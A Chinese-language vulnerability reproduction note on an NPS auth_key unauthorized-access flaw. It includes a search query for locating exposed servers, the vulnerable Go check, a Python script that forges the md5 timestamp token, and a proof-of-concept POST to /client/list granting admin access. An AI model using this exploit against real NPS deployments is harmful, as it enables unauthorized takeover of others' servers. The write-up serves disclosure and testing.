 # NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

<a-checkbox checked>NPS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="serializeArray()" && body="/login/verify"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1659837763038-87e809fa-89b7-43e1-a37f-29d06fbcc4c1.png)

在 web/controllers/base.go 文件中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1659837874036-755e631e-af75-461b-9279-153c730f4a61.png)

```php
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1659838387320-fecc77bf-a16d-4843-a29c-b0a1fa275349.png)

```php
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```php
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1659838957498-cc20a0c6-5c59-41a3-88dc-6d769a9bb8e4.png)
